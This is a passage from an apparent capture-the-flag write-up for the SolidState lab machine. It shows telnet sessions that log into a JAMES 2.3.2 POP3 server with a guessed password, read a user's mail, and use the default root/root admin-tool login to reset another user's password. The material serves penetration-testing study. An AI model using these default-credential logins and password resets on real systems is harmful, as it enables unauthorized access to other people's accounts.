 We log in on pop3 service as user john, in the mail it indicates that access to **mindy** is restricted.

```bash
root@kali:~$ telnet 192.168.179.185 110
Trying 192.168.179.185...
Connected to 192.168.179.185.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
user john
+OK
pass john
+OK Welcome john
list
+OK 1 743
1 743
.
retr 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <9564574.1.1503422198108.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: john@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <john@localhost>;
          Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
From: mailadmin@localhost
Subject: New Hires access
John, 

Can you please restrict mindy's access until she gets read on to the program. Also make sure that you send her a tempory password to login to her accounts.

Thank you in advance.

Respectfully,
James
```

Then we change mindy’s password.

```bash
root@kali:~$ telnet 192.168.179.185 4555
Trying 192.168.179.185...
Connected to 192.168.179.185.
Escape character is '^]'.
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
setpassword mindy mindy
Password for mindy reset
```

